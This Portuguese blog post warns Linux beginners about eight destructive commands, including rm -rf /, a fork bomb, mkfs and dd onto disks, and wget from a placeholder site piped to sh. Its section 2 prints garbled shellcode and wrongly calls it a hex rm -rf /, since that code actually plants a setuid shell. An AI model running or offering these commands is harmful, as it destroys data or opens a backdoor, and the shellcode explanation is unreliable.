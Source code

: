 ```yaml
---
title:  Os 8 Comandos da Morte
categories: seguranca
tags: linux shell
image: dark-hole.png
description: Existem comandos no Linux que são realmente perigosos e podem destruir todo o sistema. Não é incomum ver trolls recomendarem que novatos no mundo Linux executem tais comandos simplesmente para tirarem sarro.
---
```


Existem comandos no Linux que são realmente perigosos e podem destruir todo o sistema. Não é incomum ver trolls recomendarem que novatos no mundo Linux executem tais comandos simplesmente para tirarem sarro.

Aprender comandos que você não deve executar pode lhe ajudar a identificar possíveis ameaças e aumentar sua compreensão de como o Linux funciona.

Note que muitos desses comandos só são realmente perigosos se forem executados como Super Usuário (root).

## 1 – Excluir tudo

```sh
rm –rf /
```

O comando `rm -rf /` excluirá todo o sistema, incluindo todos os dispositivos que estejam montados.

### Interpretação:

- `rm`: Remove arquivos
- `rm -r`: Remove diretórios e arquivos recursivamente
- `rm -rf`: Remove diretórios e arquivos recursivamente de maneira forçada
- `/`: Local a ser removido


Algumas distribuições executarão esse comando sem lhe perguntar nada, então tenha atenção com isso!

O comando `rm` também pode ser usado de outras formas perigosas.

Por exemplo: `rm -rf ~` apaga tudo dentro da pasta home, e `rm -rf .*` apaga todos os arquivos ocultos, que podem possuir configurações importantes.

**Lição**: Muita atenção ao usar o `rm`.

## 2 – Excluir tudo (versão hexadecimal)

```sh
char esp[] __attribute__ ((section(“.text”))) /* e.s.p
release */
= “xebx3ex5bx31xc0x50x54x5ax83xecx64x68”
“xffxffxffxffx68xdfxd0xdfxd9x68x8dx99”
“xdfx81x68x8dx92xdfxd2x54x5exf7x16xf7”
“x56x04xf7x56x08xf7x56x0cx83xc4x74x56”
“x8dx73x08x56x53x54x59xb0x0bxcdx80x31”
“xc0x40xebxf9xe8xbdxffxffxffx2fx62x69”
“x6ex2fx73x68x00x2dx63x00”
“cp -p /bin/sh /tmp/.beyond; chmod 4755
/tmp/.beyond;”;
```

Lembre-se desse formato!

Esse código é a versão hexadecimal do `rm -rf /`. Executá-lo também irá destruir todo o sistema.

**Lição**: Nunca execute comandos de aparência estranha que você não saiba para o que serve.

## 3 – Fork Bomb

```sh
:(){ :|: & };:
```

A linha acima é uma função em bash de aparência simples, mas perigosa.

Esta linha curta define uma função que cria novas cópias de si mesmo. O processo replica-se continuamente, cada uma de suas cópias também replicam-se e rapidamente ocupa toda a capacidade de processamento da CPU e o espaço da memória. Isso fará com que o computador trave. Basicamente, é considerado um ataque de negação de serviços.

**Lição**: Funções bash são poderosas, mesmo que sejam muito curtas.

## 4 – Formatar HD

```sh
mkfs.ext4 /dev/sda1
```

O comando `mkfs.ext4 /dev/sda1` é simples de entender:

### Interpretação:

- `mkfs.ext4`: Define a criação de um novo sistema de arquivos ext4.
- `/dev/sda1`: Local onde será criado o novo sistema de arquivos.

Tomados em conjunto, este comando pode ser equivalente a formatação da partição C: no Windows - ele irá limpar os arquivos em sua primeira partição e substituí-los com um novo sistema de arquivos.

Este comando pode vir de outras formas, como `mkfs.ext3 /dev/sdb2` que formata a segunda partição no segundo disco rígido com o sistema de arquivos _ext3_.

**Lição**: Cuidado com a execução de comandos que irão para _/dev/sd*_.


## 5 – Escrever diretamente no HD

```sh
comando > /dev/sda
```

Essa linha de comando funciona de forma semelhante a anterior. Ela executa um comando e envia a saída desse comando para o primeiro disco rígido, escrevendo os dados diretamente na unidade de disco rígido e danifica o sistema de arquivos.

### Interpretação:

- `comando`: Pode ser qualquer comando.
- `>`: Envia a saída do comando para algum local.
- `/dev/sda`: Local para onde o comando é enviado.

**Lição**: Como no exemplo 4, cuidado com a execução de comandos que envolvem dispositivos de disco rígido com saída para _/dev/sd*_.

## 6 – Escrita aleatória no HD

```sh
dd if=/dev/random of=/dev/sda
```

O comando acima também destrói os dados de um disco rígido.

### Interpretação:

- `dd`: Executa a cópia de um local para outro.
- `if=/dev/random`: Usa dispositivos de entrada _/dev_ aleatórios.
- `of=/dev/sda`: Saída para o primeiro disco rígido, substituindo o seu sistema de arquivos com dados aleatórios.

**Lição**: O comando `dd` copia dados de um local para outro, o que pode ser perigoso se for copiando diretamente para um dispositivo.

## 7 – Baixar e executar scripts

```sh
wget http://site.com/arquivo -O - | sh
```

A linha acima faz download de um arquivo na web e o envia para o sh, que executa o conteúdo do script. Isso pode ser perigoso se não souber o que há no script ou se sua fonte não for confiável.

### Interpretação:

- `wget`: Realiza downloads.
- `http://site.com/arquivo`: Local a ser feito o download.
- `|`: Pipe (envia) a saída do comando wget (o conteúdo do arquivo baixado) para outro comando.
- `sh`: Comando que executará o arquivo.

**Lição** Não baixe e execute scripts não confiáveis.

## 8 – Mover diretórios para um buraco negro

```sh
mv ~ /dev/null
```

O _/dev/null_ é outro local especial que se deve ter atenção.

Qualquer coisa movida para _/dev/null_ é destruída. Pense nisso como um buraco negro.

### Interpretação:

- `mv`: Move arquivos ou diretórios.
- `~`: Representa pasta home do usuário logado.
- `/dev/null`: Local para onde a pasta home será movida.

**Lição**: O caractere ~ representa a pasta pessoal do usuário logado e move-la para _/dev/null_ irá destruí-la totalmente.
